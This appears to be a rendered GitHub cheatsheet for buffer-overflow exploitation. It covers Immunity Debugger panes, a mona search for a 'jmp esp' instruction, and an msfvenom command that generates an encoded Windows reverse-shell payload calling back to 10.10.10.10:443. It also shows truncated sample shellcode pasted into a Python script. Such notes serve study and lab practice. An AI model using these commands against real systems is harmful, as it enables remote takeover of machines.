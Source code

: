 ## Immunity Debugger
### Panes 
The default panes loaded when Immunity Debugger is started are listed below (going clock-wise starting with the top-left). To restore the panes to their default layout, click-on: Windows > 8 CPU. FYI, these panes belong to a single window called, "CPU." If additional windows are opened after the fact (ex: Log data) just close everything except for the CPU window. 
1. Disassembly
2. Registers
3. Dump
4. Stack

## Searching a Binary or DLL for Specific Assembly Instructions
Using Immunity Debugger
```bash
!mona find -s “\xff\xe4” -m “foo.dll” # search for “jmp esp” instruction
```

## Generating Shellcode
```bash
msfvenom -l payloads # list all payload options

# -p = payload: reverse shell
# EXITFUNC=thread = exit the thread (not process); avoids app crash
# -e = encode: to match target environment
# -b = bad characters: ASCII stuff (null, LF, CR, %, &, +, =)
# -f = (output) format: C 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread \
-e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c 

# output 
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"

# using the above shellcode in a Python script
shell = (
    "\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
    "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"
)
```

# Cheatsheet - Buffer Overflows (BOF)
## Immunity Debugger
```bash
File > Open # open a program for debugging; provide file name & arguments
Debug > Step into # follow the execution flow of a function
Debug > Step over # execute a function and return from it
```
